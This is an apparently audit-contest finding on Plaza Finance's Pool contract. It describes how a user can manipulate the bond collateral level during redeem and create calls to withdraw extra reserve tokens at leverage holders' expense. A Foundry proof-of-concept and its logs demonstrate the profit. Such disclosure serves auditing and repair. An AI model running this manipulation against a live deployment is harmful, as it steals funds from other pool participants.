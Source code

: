 Winning Rosewood Opossum

High

# Users will be able to manipulate redemptions because of flawed logic

### Summary

In the redeem function users will be able to withdraw more tokens by manipulating the collateralLevel

### Root Cause

In the [`getRedeemAmount`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/14a962c52a8f4731bbe4655a2f6d0d85e144c7c2/plaza-evm/src/Pool.sol#L477) function, when the `tokenType`=BOND the collateral level will be fetched the following way:
```solidity
 if (tokenType == TokenType.BOND) {
      collateralLevel = ((tvl - (depositAmount * BOND_TARGET_PRICE)) * PRECISION) / ((bondSupply - depositAmount) * BOND_TARGET_PRICE);
    } 
```
However, this collateral level does not reflect the current state. As a result, users may exploit this by manipulating the collateral level, repeatedly shifting between an undercollateralized state and a collateralized state to extract additional value stealing from leverage traders.

### Internal Pre-conditions

1.Bob should have enogh tokens to perform the manipulation

### External Pre-conditions

Price will slightly drop in the PoC example

### Attack Path

The attack in the PoC describes the following manipulation:
1.The state will be the following:
reserveSupply = 6e18, ethPrice = $1000, bondSupply=50e18 = $5000 with a tvl of $6000
2Due to a price drop the ethPrice = $910.66 =>new tvl = $5463
3. Bob will want to redeem 20 BOND tokens 
NORMAL FLOW:
Bob calls redeem with 20e18and he will get 1.92e18 reserve tokens 
ATTACK FLOW:
Bob call redeem with 40e18 tokens to shift the state to collateralized in order to use $100 as the bond dollar price
Then he will call create get back 20e18 tokens for the price of $100 each and will get 2.19e18 reserve tokens

### Impact

Due to the wrong cAMM logic users will be able to manipulate the redeem function and extract more value.

### PoC

you can run the tests below by pasting them into Pool.t.sol and running `forge test --match-test testCurveLogicBondSide -vvv`
```solidity
 function testCurveLogicBondSideWithoutManipulations() public {
        //@here
        vm.startPrank(governance);
        Token rToken = Token(params.reserveToken);
        rToken.mint(governance, 600e18);
        rToken.approve(address(poolFactory), 600e18);
        setEthPrice(1000e8); //set the price to $300
        // Create salt to create the pool at a different address
        string memory salt = "tester";

        // Create pool and approve deposit amount
        Pool _pool = Pool(poolFactory.createPool(params, 2e18, 10e18, 1e18, "", salt, "", "", false));

        address bob = address(0x01);

        rToken.mint(bob, 100e18);
        vm.stopPrank();
        // console.log(_pool.getFeeAmount());
        vm.startPrank(bob);
        rToken.approve(address(_pool), 100e18);
        _pool.create(Pool.TokenType.BOND, 4e18, 0);

        uint256 bobAmount = BondToken(_pool.bondToken()).balanceOf(bob); //40 000 000 000 000 000 000
        setEthPrice(910.666e8); //price drops now we are below collateral level 6000*91.0666 = $5463

        uint256 sumRedeemed = 0;

        sumRedeemed += _pool.redeem(Pool.TokenType.BOND, 20e18, 0); //1 920 000 000 000 000 000
        console.log(BondToken(_pool.bondToken()).balanceOf(bob));
         console.log("Bob redeemed 20e18 bond tokens for: ");
        console.log(sumRedeemed);
    }

    function testCurveLogicBondSideWithManipulations() public {
        
        vm.startPrank(governance);
        Token rToken = Token(params.reserveToken);
        rToken.mint(governance, 600e18);
        rToken.approve(address(poolFactory), 600e18);
        setEthPrice(1000e8); //set the price to $300
        // Create salt to create the pool at a different address
        string memory salt = "tester";

        // Create pool and approve deposit amount
        Pool _pool = Pool(poolFactory.createPool(params, 2e18, 10e18, 1e18, "", salt, "", "", false)); //6e18 = 18k USD; 14_400 in bonds and 3600 in Leverage
       

        address bob = address(0x01);

        rToken.mint(bob, 100e18);
        vm.stopPrank();
       
        vm.startPrank(bob);
        rToken.approve(address(_pool), 100e18);
        _pool.create(Pool.TokenType.BOND, 4e18, 0);

        uint256 bobAmount = BondToken(_pool.bondToken()).balanceOf(bob); //40 000 000 000 000 000 000
        setEthPrice(910.666e8); //price drops now we are below collateral level 6000*91.0666 = $5463
        uint256 sumRedeemed = 0;

        sumRedeemed += _pool.redeem(Pool.TokenType.BOND, 40e18, 0); //Here because of the caching of the future collateral rate the user will be able to profit
        uint256 amountToMintBackTokens = 2.19619e18;
        _pool.create(Pool.TokenType.BOND, amountToMintBackTokens, 0); //19 999 955 625 400 000 000
        console.log(BondToken(_pool.bondToken()).balanceOf(bob)); //19943585400000000000
        console.log("Bob redeemed 20e18 bond tokens for: ");
        console.log(sumRedeemed - amountToMintBackTokens); //4392389745526900092
    }
   
```
The output is the following:
```bash
Ran 2 tests for test/Pool.t.sol:PoolTest
[PASS] testCurveLogicBondSideWithManipulations() (gas: 2060305)
Logs:
  19999955625400000000
  Bob redeemed 20e18 bond tokens for: 
  2196199745526900092

[PASS] testCurveLogicBondSideWithoutManipulations() (gas: 2023138)
Logs:
  20000000000000000000
  Bob redeemed 20e18 bond tokens for: 
  1920000000000000000

```

### Mitigation

_No response_